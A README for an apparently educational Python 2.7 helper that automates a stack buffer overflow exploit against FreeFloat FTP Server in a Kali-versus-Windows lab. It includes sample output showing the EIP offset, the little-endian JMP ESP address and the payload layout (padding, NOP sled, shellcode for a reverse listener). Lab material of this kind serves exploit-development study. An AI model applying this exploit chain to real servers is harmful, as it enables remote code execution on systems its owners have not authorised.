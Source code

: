 # Buffer_helper

* Buffer_Helper.py Help To Test Buffer overflow FTP Server Exploit .

* write by python 2.7

## Required
* generate your own shell code and replace it in the buffer_helper.py

* create your listner use msfconsloe or netcat


### steps 

1- add the string as input you can use any character input .

 * make sure your string input above "300" character.

 * the buffer_helper  will give output the random sting automatically have same length of the input string .

 * input can be  "aaaaaaaaaaaaa or AAAAAAAA or 11111111/22222222"
```
Examples 

[+]Enter your reguset:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa 

[+]character length is : 38 

[+]Generated String is: taoeboshifrhuyloeggipydyizkdrqnmtjzxdx

[+]The New character length is: 38


```

2- input the ip address of FTP server and the port .

* buffer_helper will send the data to server .
```
Examples 

[+]server ip : 10.195.100.230

[+]server port :21

[+]data send successful...!!!

```

### over write

3- after the EIP addrres get over write  .


* input the  EIP address as hexadecimal . 7755BBFF or 7755bbff .

* buffer_helper will compile  hexadecimal unmber to ASCII and prnit out.

* will print out Exact satch at offset .

```
Examples 

[+]Enter hexadecimal Crach address: 79726d74

[+]The ASCII Value  is :  tmry

[+]Exact satch at offset :  251

```
### little endian network style  . 

* buffer_helper will ask for JMP ESP address.

* input it as hexadecimal 7755BBFF or 7755bbff 

*the buffer_helper will reversed automatically and  print  it as "\xFF\x\bbx\x55\x77"

```
Example:


[+] Enter JMP ESP addrsss HEX  : 75c24e5b

[+]little endian JMP ESP  is :  \x5B\x4E\xC2\x75


```


### attack
* buffer_helper will  management and handling the attack

* calculates automatically and send all payload to server and print out the result.

```
 Example

[+] attack = 251 of "A" + JMP ESP = \x5B\x4E\xC2\x75 + 144 of("\x90")  + shell code

[+]conncet server ip is  :  10.195.100.230

[+]conncet server port is  :  21

[+]WE READY TO ATTACK !![+]

[+]data send successful...!!!

[+]-------------------------{THANK YOU}--------------------------[+]

 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        

```

# All Steps



```
 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        


[+]Enter your reguset:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

[+]character length is : 399

[+]Generated String is: rxgixmqoraszkfokqpbyexikbraqjossknbkjtlhbzatqmkxggqibjqfqcccvcgazfaxwtqreqzliyhglwnhfiiexhvrpcgiefqwaraqchhjywhxwfvmurdwelikuywgbvelqsxoaivhhykqaajizxwyobfcpfatnhzbwplteeanhbxcvnsnilnfpctlhlopvocmuciezjbyrgdfcspjahklvwrhfnafkammbucrzoljlobqzlsfmgrhikptmryomphwisryixvhrfmxsjcdjmnbagxhqlxpnzxptecckpvwmnscclkkiskhzmggdjkmalzmyjeyobgdscowqzunlgqshbaikplkekpqulpkmelilkqmataboikcgzzzznhurxcldwfnhefbyhy

[+]The New character length is: 399

[+]server ip : 10.195.100.230

[+]server port :21

[+]data send successful...!!!

[+]Enter hexadecimal Crach address: 79726d74

[+]The ASCII Value  is :  tmry

[+]Exact satch at offset :  251

[+] Enter JMP ESP addrsss HEX  : 75c24e5b

[+]little endian JMP ESP  is :  \x5B\x4E\xC2\x75

[+] attack = 251 of "A" + JMP ESP = \x5B\x4E\xC2\x75 + 144 of("\x90")  + shell code

[+]conncet server ip is  :  10.195.100.230

[+]conncet server port is  :  21

[+]WE READY TO ATTACK !![+]

[+]data send successful...!!!

[+]-------------------------{THANK YOU}--------------------------[+]

 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        

```
## Required Software / Setup


ttacking system: Kali Linux

* Victim system: Windows 

* Immunity debugger  https://www.immunityinc.com/products/debugger/

* FloatFTP - The application we are going to exploit  https://archive.org/details/tucows_367516_Freefloat_FTP_Server


##  for Contact  

* administrator@jacstory.tech 

* thank you for reading it 
